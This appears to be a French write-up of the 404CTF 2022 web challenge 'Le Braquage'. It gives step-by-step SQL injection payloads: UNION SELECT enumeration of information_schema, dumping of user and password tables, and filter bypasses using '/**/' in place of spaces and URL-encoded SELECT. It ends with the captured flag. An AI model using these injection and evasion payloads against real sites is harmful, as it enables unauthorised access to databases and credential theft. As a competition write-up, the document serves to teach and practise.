 # Le Braquage

Nous devons extraire un tas d'information sur le criminel **TITI** depuis le site qu'on nous donne !

![alt text](https://github.com/anonylouis/404CTF-2022---Write-ups/blob/main/Web/Le_braquage/index.png)

Les 3 pages disponibles nous fournirons les informations dont on a besoin !

## Discussions

![alt text](https://github.com/anonylouis/404CTF-2022---Write-ups/blob/main/Web/Le_braquage/discussions.png)

Ici une simple requête utilisant OR nous affiche déjà le téléphone et l'adresse de **TITI** !

## Informations

Ici soutirer des informations de la table qu'on nous donne ne nous est pas utile, mais l'on peut essayer d'aller plus loin en regardant si l'on n'a pas accès à une autre table !!

`a' UNION SELECT table_name,column_name FROM information_schema.columns #` affiche :

![alt text](https://github.com/anonylouis/404CTF-2022---Write-ups/blob/main/Web/Le_braquage/informations1.png)

Deux tables ! Si _coopreratives_ n'était pas utile, la table _Users_ peut l'être !

`a' UNION SELECT nom, prenom FROM users #`

![alt text](https://github.com/anonylouis/404CTF-2022---Write-ups/blob/main/Web/Le_braquage/informations2.png)

Et voilà le nom et prénom !

## Rencontres

Ici, si l'on rentre une requête basique `' OR 1=1#`, on nous affiche une formidable erreur : "Requête invalide : ne pas mettre d'espace"

Les espaces sont soumis à un FILTRE ! Pas de soucis le filtre peut être bypass en remplaçant les espaces par "/**/"

![alt text](https://github.com/anonylouis/404CTF-2022---Write-ups/blob/main/Web/Le_braquage/rencontres1.png)

Reste plus qu'à trouver le mot de passe !!

Peut-être se trouve-t-il sur une autre table !

`a'/**/UNION/**/SELECT/**/1,table_name,column_name/**/FROM/**/information_schema.columns#` affiche une nouvelle erreur : "Attaque détectée : SELECT utilisé"

Il faut bypass ce nouveau filtre ! Pour cela, on peut remplacer SELECT par %53%45%4c%45%43%54

`a'/**/UNION/**/%53%45%4c%45%43%54/**/1,table_name,column_name/**/FROM/**/information_schema.columns#`

![alt text](https://github.com/anonylouis/404CTF-2022---Write-ups/blob/main/Web/Le_braquage/rencontres2.png)

Le mot de passe se trouve probablement dans la table Password !

`a'/**/UNION/**/%53%45%4c%45%43%54/**/1,id,mdp/**/FROM/**/Password#`

![alt text](https://github.com/anonylouis/404CTF-2022---Write-ups/blob/main/Web/Le_braquage/rencontres3.png)

Et voilà le dernier élément !

> 404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}